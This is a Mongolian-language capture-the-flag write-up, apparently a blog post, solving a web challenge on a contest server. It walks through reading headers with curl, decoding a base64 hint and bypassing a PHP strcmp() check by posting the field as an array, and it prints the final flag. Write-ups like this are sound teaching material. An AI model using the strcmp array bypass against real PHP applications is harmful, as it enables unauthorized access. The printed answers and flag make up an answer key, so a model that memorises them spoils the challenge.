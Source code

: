 ```yaml
---
layout: post
cover: https://cloud.githubusercontent.com/assets/14227502/18790645/29fbb290-81e2-11e6-9fbf-a5650585ba6b.jpg
---
```


## Өгөгдөл

**Даалгаврын нэр:** Толгой <br/>
**Хандах хаяг:** http://103.48.116.193:8008/ <br/>
**Оноо:** 40 оноо <br/>

---

Энэ даалгаврын хувьд тэмцээний үеэр хийж чадаагүй бөгөөд толгой (Header) дээрээс ямар нэгэн зүйл олохоос өөр санаа байсангүй.

Тэмцээний маргааш нь [curl](https://curl.haxx.se) ашиглаж header-үүдийг харж болохыг мэдсэн бөгөөд тугийг олж чадсан юм.

```
$ curl -I http://103.48.116.193:8008/
```

> асуулт 1: Харуул Занги эхний тэмцээн болсон он? /хариултаа илээр явуулна уу. 'answer_level_one' /

гэсэн хариу ирэх бөгөөд илээр гэдэг нь _get_ хүсэлтийг хэлж байна. Харуул занги анхны тэмцээн 2013 онд болсон бөгөөд дахин `curl` ашиглаж үзье.

---

```
$ curl -I http://103.48.116.193:8008/?answer_level_one=2013
```

> Найдвар: aDRydVVMLVpAbkcxXzIwMTY= /хариултыг илээр явуулна уу. 'answer_next_one'/

Өгөгдсөн [base64](https://en.wikipedia.org/wiki/Base64)-г тайлъя.

```
$ base64 -D <<< "aDRydVVMLVpAbkcxXzIwMTY="
```

`h4ruUL-Z@nG1_2016` гэсэн тэмдэгт мөр гарч ирлээ.

---

```
$ curl -I http://103.48.116.193:8008/?answer_next_one=h4ruUL-Z@nG1_2016
```

> Учрыг ол : hint php strcmp() /хариултыг далдаар явуулна уу. 'answer_level_last_one'/

[http://103.48.116.193:8008/?answer_next_one=h4ruUL-Z@nG1_2016](http://103.48.116.193:8008/?answer_next_one=h4ruUL-Z@nG1_2016) хаяг руу хандаж үзвэл input форм харагдана. Өгөгдсөн hint-г уншвал шалгалтаа strcmp() функц ашиглаж хийдэг бололтой. strcmp-г bypass хийхийн тулд тэмдэгт мөр хэлбэрээр хүсэлт явуулахад л болно.

```
$ curl -d "answer_level_last_one[]=a" http://103.48.116.193:8008/?answer_next_one=h4ruUL-Z@nG1_2016
```

> FLAG: HZ{0nly_4rrAy_p4\$\$\_1t}

Эцэст нь туг: **HZ{0nly_4rrAy_p4\$\$\_1t}**
